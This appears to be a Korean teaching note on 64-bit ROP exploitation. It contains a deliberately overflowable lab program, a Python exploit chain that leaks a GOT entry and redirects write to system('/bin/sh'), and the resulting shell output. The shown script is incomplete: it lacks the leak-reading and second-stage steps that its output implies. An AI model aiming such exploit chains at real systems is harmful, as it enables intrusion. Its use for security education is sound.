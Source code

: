 # 64bit ROP
* 64비트 아키텍쳐에서는 함수의 인자를 레지스터와 스택에 저장해 전달한다.
* 예제1
``` C
// gcc -o call64 call64.c 
#include <stdio.h>
int main()
{
	printf("%d + %d = %d\n %d + %d = %d\n",1,2,3,4,5,9);
	return 0;
}
```
```
$ gdb call64
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400526 <+0>:	push   rbp
   0x0000000000400527 <+1>:	mov    rbp,rsp
   0x000000000040052a <+4>:	sub    rsp,0x8
   0x000000000040052e <+8>:	push   0x9
   0x0000000000400530 <+10>:	mov    r9d,0x5
   0x0000000000400536 <+16>:	mov    r8d,0x4
   0x000000000040053c <+22>:	mov    ecx,0x3
   0x0000000000400541 <+27>:	mov    edx,0x2
   0x0000000000400546 <+32>:	mov    esi,0x1
   0x000000000040054b <+37>:	mov    edi,0x4005f4
   0x0000000000400550 <+42>:	mov    eax,0x0
   0x0000000000400555 <+47>:	call   0x400400 <printf@plt>
(gdb) x/s 0x4005f4
0x4005f4:	"%d + %d = %d\n %d + %d = %d\n"
```
printf 함수 호출 이전에 인자를 각각 레지스터와 스택에 넣고 호출한다. 디스어셈블리 결과를 보면 64비트에서 함수가 호출될 때 전달되는 인자는 다음과 같다.   
![image](https://user-images.githubusercontent.com/59531805/79732081-26bee380-832e-11ea-8386-f2910251b517.png)
rdi, rsi, rdx, rcx, r9, r9 레지스터를 전부 사용하면 다음 인자부터는 스택에 저장한다.
64비트 아키텍쳐에서는 pop과 같은 명령어를 통해 함수의 인자를 전달하는 방법으로 ROP를 할 수 있다.
* 예제2
``` C
// gcc -o rop64 rop64.c -fno-stack-protector
#include <stdio.h>
#include <unistd.h>
void gadget() {
	asm("pop %rdi");
	asm("pop %rsi");
	asm("pop %rdx");
	asm("ret");
}
int main()
{
	char buf[256];
	write(1, "Data: ", 6);
	read(0, buf, 1024); 
	return 0;
}
```
``` python
# rop64.py
import struct
import subprocess
import os
import pty
import time
def readline(fd):
  res = ''
  try:
    while True:
      ch = os.read(fd, 1)
      res += ch
      if ch == '\x20':
        return res
  except:
    raise
def read(fd, n):
  return os.read(fd, n)
def writeline(proc, data):
  try:
    proc.stdin.write(data + "\n")
  except:
    raise
def p64(val):
  return struct.pack("<Q", val)
def u64(data):
  return struct.unpack("<Q", data)[0]
out_r, out_w = pty.openpty()
s = subprocess.Popen("./rop64", stdin=subprocess.PIPE, stdout=out_w)
print `read(out_r, 6)`
# write(1, 0x601018, 8)
payload  = "A"*264         # buf padding
payload += p64(0x40056a)   # pop rdi; pop rsi; pop rdx; ret
payload += p64(1)          # fd
payload += p64(0x601018)   # write@got
payload += p64(8)          # 8 
payload += p64(0x400430)   # write_plt 
# read(0, 0x601018, 16)
payload += p64(0x40056a)   # pop rdi; pop rsi; pop rdx; ret
payload += p64(0)          # fd
payload += p64(0x601018)   # write@got
payload += p64(16)          # 8
payload += p64(0x400440)   # read@plt
# write(0x601020,0,0)
payload += p64(0x40056a)   # pop rdi; pop rsi; pop rdx; ret
payload += p64(0x601020)   # /bin/sh
payload += p64(0)          # 0
payload += p64(0)          # 0
payload += p64(0x400430)   # write@plt
writeline(s, payload)
```
rop64.c에는 스택 버퍼 오버플로우 취약점이 존재한다.
익스플로잇의 편의를 위해 rdi, rsi, rdx 레지스터에 각각 원하는 값을 전달할 수 있는 ROP 코드 가젯을 제공했다.
공격 코드를 작성하기에 앞서 objdump를 사용하여 pop rdi; pop rsi; pop rdx; ret 코드 가젯의 주소를 알아내야 한다.
```
$ objdump -d rop64 | grep "gadget" -A6
0000000000400566 <gadget>:
  400566:	55                   	push   %rbp
  400567:	48 89 e5             	mov    %rsp,%rbp
  40056a:	5f                   	pop    %rdi
  40056b:	5e                   	pop    %rsi
  40056c:	5a                   	pop    %rdx
  40056d:	c3                   	retq
  ```
해당 코드 가젯은 0x40056a주소에 존재한다. 찾은 코드 가젯을 이용해 write 함수를 호출한 뒤 write@got에 저장되어 있는 값을 출력해서 라이브러리 주소를 알아낸다.
이후, 알아낸 라이브러리 주소를 통해 write@got를 system 함수로 덮어쓰고 "/bin/sh" 문자열을 입력한다.
최종적으로 write 함수를 호출하고 "/bin/sh" 문자열의 주소인 0x601020를 첫 번째 인자로 전달하면 셸을 획득할 수 있다.   
라이브러리의 베이스 주소와 system 함수 주소를 계산하기 위해 readelf를 사용하여 오프셋을 알아내야 한다.
```
$ readelf -a /lib/x86_64-linux-gnu/libc.so.6 | grep "write"
  W (write), A (alloc), X (execute), M (merge), S (strings), l (large)
    99: 00000000000746c0   466 FUNC    GLOBAL DEFAULT   13 _IO_wdo_write@@GLIBC_2.2.5
   169: 00000000000f72b0    90 FUNC    WEAK   DEFAULT   13 __write@@GLIBC_2.2.5
   287: 000000000007a390   269 FUNC    GLOBAL DEFAULT   13 _IO_do_write@@GLIBC_2.2.5
   491: 0000000000108040    36 FUNC    GLOBAL DEFAULT   13 process_vm_writev@@GLIBC_2.15
   493: 00000000000f5ac0    96 FUNC    WEAK   DEFAULT   13 __pwrite64@@GLIBC_2.2.5
   851: 00000000000fcfd0    90 FUNC    WEAK   DEFAULT   13 writev@@GLIBC_2.2.5
  1252: 00000000000f5ac0    96 FUNC    GLOBAL DEFAULT   13 __libc_pwrite@@GLIBC_PRIVATE
  1513: 00000000000fd0e0   170 FUNC    GLOBAL DEFAULT   13 pwritev@@GLIBC_2.10
  1565: 0000000000107700    41 FUNC    GLOBAL DEFAULT   13 eventfd_write@@GLIBC_2.7
  1580: 000000000006e6e0   456 FUNC    WEAK   DEFAULT   13 fwrite@@GLIBC_2.2.5
  1855: 00000000000fd0e0   170 FUNC    GLOBAL DEFAULT   13 pwritev64@@GLIBC_2.10
  2005: 0000000000078b70   171 FUNC    GLOBAL DEFAULT   13 _IO_file_write@@GLIBC_2.2.5
  2025: 000000000006e6e0   456 FUNC    GLOBAL DEFAULT   13 _IO_fwrite@@GLIBC_2.2.5
  2044: 00000000000f5ac0    96 FUNC    WEAK   DEFAULT   13 pwrite@@GLIBC_2.2.5
  2103: 00000000000781a0   106 FUNC    GLOBAL DEFAULT   13 fwrite_unlocked@@GLIBC_2.2.5
  2112: 00000000000f5ac0    96 FUNC    WEAK   DEFAULT   13 pwrite64@@GLIBC_2.2.5
  2159: 00000000000f72b0    90 FUNC    WEAK   DEFAULT   13 write@@GLIBC_2.2.5
$ readelf -a /lib/x86_64-linux-gnu/libc.so.6 | grep "system"
   225: 0000000000138810    70 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.2.5
   584: 0000000000045390    45 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1351: 0000000000045390    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
  ```
라이브러리의 write와 system 함수 오프셋은 각각 0xf72b0, 0x45390인 것을 알아냈다.   
출력된 write@got 값과 라이브러리의 write 함수 오프셋을 계산하여 라이브러리의 베이스 주소를 알아내고, system 함수 오프셋과 덧셈 연산을 하여 system 함수 주소를 알아냈다.
write@got에 입력받을 때 system 함수 주소와 "/bin/sh" 문자열을 입력하고, write 함수를 호출할 때 인자로 0x601020 주소를 전달하면 셸을 획득할 수 있다.
```
$ python ex.py
'Data: '
0x7f98a275c2b0
$ id
uid=1001(theori) gid=1001(theori) groups=1001(theori)
```
